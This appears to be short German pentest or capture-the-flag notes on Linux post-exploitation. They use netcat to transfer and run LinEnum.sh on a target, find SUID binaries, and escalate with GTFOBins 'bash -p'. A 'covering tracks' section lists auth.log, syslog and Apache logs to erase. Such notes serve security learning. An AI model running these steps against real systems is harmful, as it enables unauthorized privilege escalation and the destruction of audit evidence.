 netcat auf target:

    nc -l -p 1337 > LinEnum.sh

netcat auf eigener maschine:

    nc -w -3 <ip_target> 1337 < LinEnum.sh

auf target berechtigung vergeben:

    chmod +x LinEnum.sh

Script ausführen auf Target:

    ./LinEnum.sh

Spuren verwischen auf Debian und Ubuntu:

- "/var/log/auth.log" (Attempted logins for SSH, changes too or logging in as system users:)
- "/var/log/syslog" (System events such as firewall alerts:)
- "/var/log/<service>/"
    - /var/log/apache2/access.log"
    

Enumation mit LinPeaes.sh oder mit dem SUID Command:

    find / -perm -u=s -type f 2>/dev/null

Suche nach exploitbaren Anwendungen auf [GTFObins](https://gtfobins.github.io)

z.b. bash:

    bash -p

![](../img/2020-12-21_14-34-37.png)

![](../img/2020-12-21_14-37-11.png)
